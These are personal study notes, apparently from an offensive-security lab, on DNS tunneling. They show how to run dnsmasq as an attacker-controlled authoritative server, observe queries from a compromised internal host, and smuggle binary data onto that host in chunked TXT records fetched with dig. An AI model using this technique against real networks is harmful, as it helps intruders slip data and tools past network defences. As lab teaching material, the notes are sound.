



---
aliases:
  - DNS tunneling
  - DNS tunnel
  - dnsmasq
  - "`dnsmasq`"
---
# DNS Tunneling
Continuing off of the same [Scenario](HTTP-tunneling.md#Scenario) (from the [HTTP tunneling](HTTP-tunneling.md) notes), in our victim's network, `MULTISERVER03` serves *as the DNS server*. So, a request from `PGDATABSEO1` for `www.example.com` would follow this path:

> [!Note]
> The firewall/ [deep packet inspection](./README.md) devices are removed to keep the diagram simple.
## Introducing an Authoritative Name Server
To further detail how [DNS](../../networking/DNS/DNS.md) resolution works, let's assume there is a second server in the [WAN](../../networking/design-structure/WAN.md) (the same network as our kali machine) called `FELINEAUTHORITY`. Assume that `FELINEAUTHORITY` is registered within this network as the [Authoritative Name Server](../../networking/DNS/DNS.md#The%20TLD%20queries%20the%20Authoritative%20Name%20Servers) for the zone `feline.corp`. This means it *stores the original DNS records* for all domains in the `feline.corp` zone.

In the diagram above, `PGDATABASE01` *cannot connect to `FELINEAUTHORITY` directly*, but it can connect to `MULTISERVER03` which is configured as the *DNS Resolver* for `PGD01`.

Assume we've established a shell on both `PGDATABASE01` and `FELINEAUTHORITY`. We can see how DNS traffic from `PGD01` flows to `FELINE` using a few command line tools:
### `dnsmasq`
[_Dnsmasq_](https://thekelleys.org.uk/dnsmasq/doc.html) is a tool which we can use to setup a DNS server pretty easily using only a few configuration files. The conf files are usually stored in `~/dns_tunneling`. 

To see how the DNS traffic flows b/w the two servers, we need to us `dnsmasq` on `FELINE` to make it a functional DNS server. We can use the `dnsmasq.conf` configuration file for this:
```bash
kali@felineauthority:~$ cd dns_tunneling

kali@felineauthority:~/dns_tunneling$ cat dnsmasq.conf
# Do not read /etc/resolv.conf or /etc/hosts
no-resolv
no-hosts

# Define the zone
auth-zone=feline.corp
auth-server=feline.corp
```
- `no-resolv` & `no-hosts`: tells `dnsmasq` *to ignore* `/etc/hosts` and `/etc/resolv.conf`
- `auth-zone` & `auth-server`: used to tell `dnsmasq` to act as the *authoritative name server* for the `feline.corp` zone
With these values set in the configuration file, we can use `dnsmasq` with the`-C` set to point at the configuration file. We'll also use `-d` ("no daemon") to make sure it *runs in the background*:
```bash
kali@felineauthority:~/dns_tunneling$ sudo dnsmasq -C dnsmasq.conf -d
dnsmasq: started, version 2.88 cachesize 150
dnsmasq: compile time options: IPv6 GNU-getopt DBus no-UBus i18n IDN2 DHCP DHCPv6 no-Lua TFTP conntrack ipset nftset auth cryptohash DNSSEC loop-detect inotify dumpfile
dnsmasq: warning: no upstream servers configured
dnsmasq: cleared cache
```
> [!Note]
> We haven't created *any DNS records* so any requests sent to the server will receive a failure response.

Remember to use [`tcpdump`](../../CLI-tools/linux/tcpdump.md)to capture traffic on `FELINE`'s `ens192` port so we can see *the DNS requests come in* (to port `53` by default):
```bash
kali@felineauthority:~$ sudo tcpdump -i ens192 udp port 53
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on ens192, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```
### `resolvectl`
Back on `PGDATABSE01` we can use the `resolvectl` command line tool to *verify `PGD01`'s DNS settings*. This is because DNS resolution is being handled by `systemd-resolved`:
```bash
database_admin@pgdatabase01:~$ resolvectl status
...             

Link 5 (ens224)
      Current Scopes: DNS        
DefaultRoute setting: yes        
       LLMNR setting: yes        
MulticastDNS setting: no         
  DNSOverTLS setting: no         
      DNSSEC setting: no         
    DNSSEC supported: no         
  Current DNS Server: 10.4.50.64
         DNS Servers: 10.4.50.64

Link 4 (ens192)
      Current Scopes: DNS        
DefaultRoute setting: yes        
       LLMNR setting: yes        
MulticastDNS setting: no         
  DNSOverTLS setting: no         
      DNSSEC setting: no         
    DNSSEC supported: no         
  Current DNS Server: 10.4.50.64
         DNS Servers: 10.4.50.64
```
Based on `Current DNS Server/s` in the output, `PGD01`'s DNS server is currently set to `MULTISERVER03`. So, any time it needs to resolve a domain name *it will query `MULTISERVER03`*. If we use `nslookup` to make a DNS request for the hostname `exfiltrated-data.feline.corp` right now, we should get an [NXDOMAIN](../../networking/DNS/DNS.md#NXDOMAIN) response (since we haven't set up any records):
```bash
database_admin@pgdatabase01:~$ nslookup exfiltrated-data.feline.corp
Server:		127.0.0.53
Address:	127.0.0.53#53

** server can't find exfiltrated-data.feline.corp: NXDOMAIN
```
The request was first sent to port `53` on `PGD01`'s [loopback](../../networking/routing/loopback.md) interface (because [_systemd-resolved_](https://manpages.ubuntu.com/manpages/xenial/man8/systemd-resolved.service.8.html) provides that port as the initial DNS resolver), but the request is then forwarded to `MULTISERVER03` and then `FELINEAUTHORITY`
> [!Note]
>  If you want to query a DNS server directly, you can give `nslookup` the IP address of the server: `nslookup exfiltrated-data.feline.corp 192.168.50.64`

Back on `FELINE` we should see the request query in the output to our `tcpdump` command:
```bash
kali@felineauthority:~$ sudo tcpdump -i ens192 udp port 53
[sudo] password for kali: 

tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on ens192, link-type EN10MB (Ethernet), snapshot length 262144 bytes
04:57:40.721682 IP 192.168.50.64.65122 > 192.168.118.4.domain: 26234+ [1au] A? exfiltrated-data.feline.corp. (57)
04:57:40.721786 IP 192.168.118.4.domain > 192.168.50.64.65122: 26234 NXDomain 0/0/1 (57)
```
These packets were sent to `FELINE` by `MULTISERVER`. In them we can see that a request was sent for the [A-record](../../networking/DNS/A-record.md) of `exfiltrated-data.feline.corp`. Since we have no A records for that domain on `FELINE`, `FELINE` responded with `NXDOMAIN`.

Technically, the above picture does not show the requests made to *the [root](../../networking/DNS/DNS.md#The%20relevant%20Root%20NS...) name servers or the [Top Level Domain](../../networking/DNS/DNS.md#Top%20Level%20Domain)* (TLD) *name servers* which would have been sent *before* the request we end up seeing on `FELINE`. 
## Leveraging the Above
We've demonstrated thru this scenario that an internal host has *interacted with our external host* by sending an *arbitrary DNS query*. We can leverage this to *infiltrate data* onto `PGDATABASE01` from our external server.

The DNS connection made b/w `PGD01` and `FELINE` was not a continuous or direct connection, but was small intermittent connections where chunks of information were passed from one to the other. 

The fun thing about DNS is that DNS [`TXT` records](../../networking/DNS/TXT-record.md) can store data other than ASCII text including  *binary data*. So, we can use `TXT` records to *infiltrate binary data* onto `PGD01`. Unfortunately, `TXT` record strings are limited to a *255 byte length*. So storing a large binary file in `TXT` records will require multiple `TXT` records.
### Plan
If we want to get a binary file onto `PGD01`(or any kind of file), we can convert our binary file into a hex string, split the string into chunks and then create 255-byte TXT records for each chunk. We can then create TXT records on the *authoritative server `FELINEAUTHORITY`*. 

Once the records are created and propery stored on `FELINE`, we can then use a tool like [dig](../../CLI-tools/dig.md) or `nslookup` on `PGDATABASE01` to retrieve each TXT record *from `FELINE`*.
### Serving Records with `dnsmasq`
To serve our TXT records, we can use `dnsmasq` again. First, we'll have to kill the previous `dnsmasq` process running on `FELINE`. Then we can *change `dnsmasq_txt.conf`* and start a new process with this new configuration.
#### Update `dnsmasq_txt.conf`
`dnsmasq_txt.conf` has a property called `txt-record`. This property can be set to a subdomain followed by a string of text which will make up the contents of a new TXT record on the subdomain. For example, if you want to make a TXT file on the `www.feline.corp` domain that stores the string `"TrshPuppy is a sup3r l33t hacker"`, your `dnsmasq_txt.conf` file should look like this:
```bash
kali@felineauthority:~/dns_tunneling$ cat dnsmasq_txt.conf
# Do not read /etc/resolv.conf or /etc/hosts
no-resolv
no-hosts

# Define the zone
auth-zone=feline.corp
auth-server=feline.corp

# TXT record
txt-record=www.feline.corp,TrshPuppy is a sup3r l33t hacker
```
Once `dnsmasq_txt.conf` is updated, you need to *restart the process* to start the DNS server configured with the new TXT records for `www.feline.corp`
### Infiltrating Records
Back on our target machine `PGDATABASE01`, we can infiltrate the data stored on our new TXT records with either `dig` or `nslookup`:
```bash
# nslookup
database_admin@pgdatabase01:~$ nslookup -type=txt www.feline.corp
Server:		192.168.50.64
Address:	192.168.50.64#53

Non-authoritative answer:
www.feline.corp	text = "TrshPuppy is a sup3r l33t hacker"

Authoritative answers can be found from:

database_admin@pgdatabase01:~$

# dig
dig www.feline.corp txt

; <<>> DiG 9.10.6 <<>> www.feline.corp txt
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 58794
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4095
;; QUESTION SECTION:
;www.feline.corp.			IN	TXT

;; ANSWER SECTION:
www.feline.corp.		300	IN	TXT	"TrshPuppy is a sup3r l33t hacker"

;; Query time: 69 msec
;; SERVER: 192.168.50.64#53(192.168.50.64)
;; WHEN: Wed May 21 16:35:47 PDT 2025
;; MSG SIZE  rcvd: 121
```
#### Bonus!
Since you want to infiltrate a bunch of chunks of binary and/ or hex data, you probably want to automate this right? Well, instead of having to parse through the entire output *from `dig`*, you can use the `+short` flag so the response *just includes the content of the `TXT` file*:
 ```bash
dig +short www.feline.corp txt
"TrshPuppy is a sup3r l33t hacker"
```
Just remember to *chop the quotations* off the output before you try to splice them back together to get your binary file.

> [!Resources]
> - [_Dnsmasq_](https://thekelleys.org.uk/dnsmasq/doc.html)
> - [_systemd-resolved_](https://manpages.ubuntu.com/manpages/xenial/man8/systemd-resolved.service.8.html)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.